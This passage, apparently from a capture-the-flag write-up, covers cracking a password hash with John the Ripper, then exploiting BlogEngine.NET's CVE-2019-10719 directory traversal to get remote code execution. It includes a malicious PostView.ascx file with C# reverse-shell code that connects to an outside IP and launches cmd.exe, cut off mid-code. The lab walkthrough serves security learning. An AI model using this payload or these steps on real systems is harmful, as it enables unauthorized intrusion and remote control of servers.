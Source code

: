 ```console
$ john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256 
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (Raw-SHA256 [SHA256 128/128 SSE2 4x])
Remaining 1 password hash
Warning: poor OpenMP scalability for this hash type, consider --fork=2
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:26 DONE (2024-02-24 13:12) 0g/s 527910p/s 527910c/s 527910C/s """anokax"..*7¡Vamos!
Session completed.
```

We are able to crack the password hash for the `guest` user.

```console
$ john hashes.txt --format=Raw-SHA256 --show
guest:[REDACTED]

1 password hash cracked, 1 left
```

### Finding the password inside draft pages

Now, with the found password, we are able to login to `http://10.10.16.197/blog` as the `guest` user.

Upon logging in, we see a draft page.

![BlogEngine.NET Draft Page](web_blog_draft_page.webp){: width="950" height="550" }

Checking the draft page, we get a password for King Arthur.

![BlogEngine.NET King Arthur Pass](web_blog_king_arthur_pass.webp){: width="800" height="500" }

### Remote code execution

Checking roles for our current user, we have the `Editors` role, which should be enough for the next vulnerability: [CVE-2019-10719](https://www.securitymetrics.com/blog/BlogEngineNET-Directory-Traversal-Remote-Code-Execution-CVE-2019-10719-CVE-2019-10720). According to the article, using a directory traversal vulnerability in the `/api/upload` endpoint with the `dirPath` parameter, we should be able to upload a malicious `PostView.ascx` file to a subdirectory under the `/Custom/Themes/` directory. Then, using the `theme` parameter to load the "theme" we created, we should get remote code execution.

Creating a malicious `PostView.ascx` file.

```
<%@ Control Language="C#" AutoEventWireup="true" EnableViewState="false" Inherits="BlogEngine.Core.Web.Controls.PostViewBase" %>
<%@ Import Namespace="BlogEngine.Core" %>

<script runat="server">
  static System.IO.StreamWriter streamWriter;

    protected override void OnLoad(EventArgs e) {
        base.OnLoad(e);

  using(System.Net.Sockets.TcpClient client = new System.Net.Sockets.TcpClient("10.11.72.22", 445)) {
    using(System.IO.Stream stream = client.GetStream()) {
      using(System.IO.StreamReader rdr = new System.IO.StreamReader(stream)) {
        streamWriter = new System.IO.StreamWriter(stream);

        StringBuilder strInput = new StringBuilder();

        System.Diagnostics.Process p = new System.Diagnostics.Process();
        p.StartInfo.FileName = "cmd.exe";
```